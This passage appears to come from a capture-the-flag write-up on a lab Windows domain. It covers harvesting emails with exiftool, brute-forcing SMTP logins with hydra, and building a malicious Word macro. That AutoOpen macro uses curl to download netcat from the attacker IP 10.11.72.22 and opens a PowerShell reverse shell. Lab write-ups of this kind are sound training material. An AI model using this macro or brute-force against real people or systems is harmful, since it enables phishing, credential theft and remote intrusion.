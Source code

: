 Also, from the metadata of the file, we get two email addresses: `developer@test.corp` and `Administrator@SOCMAS.CORP`.

```console
$ exiftool approved.xlsx
...
Creator                         : developer@test.corp
Last Modified By                : Administrator@SOCMAS.CORP
...
```

We also create a wordlist from them as follows:

```console
$ cat emails.txt
developer@test.corp
Administrator@SOCMAS.CORP
```

Now, testing the email addresses and the passwords we have against the `SMTP` service running on the target using `hydra`, we are able to discover the password for the `developer@test.corp` account.

```console
$ hydra -L emails.txt -P passwords.txt fisher.socmas.corp smtp -s 587 -t 16
...
[587][smtp] host: fisher.socmas.corp   login: developer@test.corp   password: [REDACTED]
...
```

With these credentials, we can use `Thunderbird` and set it up as follows to easily read and send emails.

![Thunderbird Setup](thunderbird_setup.webp){: width="1200" height="600" }

In our inbox, we see an email from the `SFC` user asking us to send a Word document including the details for non-personal accounts.

![Thunderbird Email](thunderbird_email.webp){: width="1200" height="600" }

### Shell as scrawler

Since it asks us to send a Word document, we will use `Microsoft Word` to create a `.docm` file. We will add the `test` sub to download `netcat` and use it to send a reverse shell, and the `AutoOpen` sub to call the `test` sub when the document is opened.

```vb
Sub AutoOpen()
    Call test
End Sub

Sub test()
    Dim objshell As Object
    Set objshell = CreateObject("Wscript.Shell")
    objshell.Run "curl http://10.11.72.22/nc64.exe -o C:\ProgramData\nc64.exe", 0, True
    objshell.Run "C:\ProgramData\nc64.exe 10.11.72.22 443 -e powershell", 0, False
End Sub
```
